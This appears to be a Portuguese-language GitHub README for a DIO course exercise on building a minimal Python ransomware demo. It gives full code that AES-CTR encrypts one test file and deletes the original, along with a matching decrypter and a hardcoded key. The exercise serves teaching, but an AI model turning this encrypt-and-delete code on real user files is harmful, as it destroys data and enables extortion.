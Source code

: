 # 🔒 Ransomware em Python – Desafio DIO

Este projeto foi desenvolvido como parte do desafio "Entendendo um Ransomware na Prática com Python".

> ⚠️ **Este código é exclusivamente para fins educacionais e de estudo.**  
> **Nunca utilize este tipo de ferramenta em sistemas reais, sem autorização explícita.**

---

## 🎯 Objetivos

- Implementar um script capaz de **criptografar** um arquivo usando o algoritmo AES.
- Criar um script capaz de **descriptografar** o mesmo arquivo.
- Entender os riscos e mecanismos por trás de ataques de ransomware.

---

## 📁 Estrutura do Projeto

```
.
├── encrypter.py        # Script para criptografar o arquivo
├── decrypter.py        # Script para descriptografar o arquivo
├── teste.txt           # Arquivo de exemplo
└── README.md           # Este arquivo
```

---

## 🛠️ Pré-requisitos

- Python 3.x instalado
- Biblioteca `pyaes` instalada

### Instalação da dependência

```bash
pip install pyaes
```

---

## 🚀 Passo a Passo: Criando seu Projeto Ransomware

### 1. Crie a pasta do projeto

Abra o terminal e execute:

```bash
mkdir cibersecurity-desafio-ransomware
```

> Isso cria uma nova pasta chamada `cibersecurity-desafio-ransomware`.

---

### 2. Entre na pasta

```bash
cd cibersecurity-desafio-ransomware
```

> Agora você está dentro da pasta do seu projeto.

---

### 3. Crie os arquivos necessários

Execute os seguintes comandos para criar os arquivos vazios:

```bash
touch teste.txt
touch encrypter.py
touch decrypter.py
```

> Isso cria três arquivos: `teste.txt`, `encrypter.py` e `decrypter.py`.

---

### 4. Edite os arquivos com o código

#### ➤ Edite o `encrypter.py`

```bash
nano encrypter.py
```

Cole o código abaixo, salve (`Ctrl+O` → Enter) e saia (`Ctrl+X`):

```python
import os
import pyaes

# Abrir o arquivo a ser criptografado
file_name = 'teste.txt'
file = open(file_name, 'rb')
file_data = file.read()
file.close()

# Remover o arquivo original
os.remove(file_name)

# Definir a chave de criptografia
key = b"testeransomwares"
aes = pyaes.AESModeOfOperationCTR(key)

# Criptografar o arquivo
crypto_data = aes.encrypt(file_data)

# Salvar o arquivo criptografado
new_file = file_name + '.ransomwaretroll'
new_file = open(f'{new_file}', 'wb')
new_file.write(crypto_data)
new_file.close()

print(f"✅ Arquivo '{file_name}' foi criptografado com sucesso como '{new_file}'.")
```

---

#### ➤ Edite o `decrypter.py`

```bash
nano decrypter.py
```

Cole o código abaixo, salve e saia:

```python
import os
import pyaes

# Abrir o arquivo criptografado
file_name = 'teste.txt.ransomwaretroll'
file = open(file_name, 'rb')
file_data = file.read()
file.close()

# Definir a chave de descriptografia (deve ser a mesma usada na criptografia)
key = b"testeransomwares"
aes = pyaes.AESModeOfOperationCTR(key)

# Descriptografar o arquivo
decrypt_data = aes.decrypt(file_data)

# Remover o arquivo criptografado
os.remove(file_name)

# Criar o arquivo descriptografado
new_file = 'teste.txt'
new_file = open(f'{new_file}', 'wb')
new_file.write(decrypt_data)
new_file.close()

print(f"✅ Arquivo '{file_name}' foi descriptografado com sucesso como '{new_file}'.")
```

---

#### ➤ Crie o conteúdo do `teste.txt`

```bash
echo "alo brasil" > teste.txt
```

> Isso preenche o arquivo `teste.txt` com o texto “alo brasil”.

---

### 5. Instale a biblioteca `pyaes`

No terminal, ainda dentro da pasta do projeto, execute:

```bash
pip install pyaes
```

> Isso instala a biblioteca necessária para a criptografia AES.

---

### 6. Teste os scripts

Execute os scripts na ordem:

```bash
python encrypter.py
python decrypter.py
```

> Você verá mensagens de sucesso e o arquivo `teste.txt` será restaurado.

---

## 📌 Observações Importantes

- A chave usada é: `b"testeransomwares"` (16 bytes).
- O modo de operação é **AES-CTR**.
- Este projeto é **apenas para aprendizado** — não é um ransomware real.
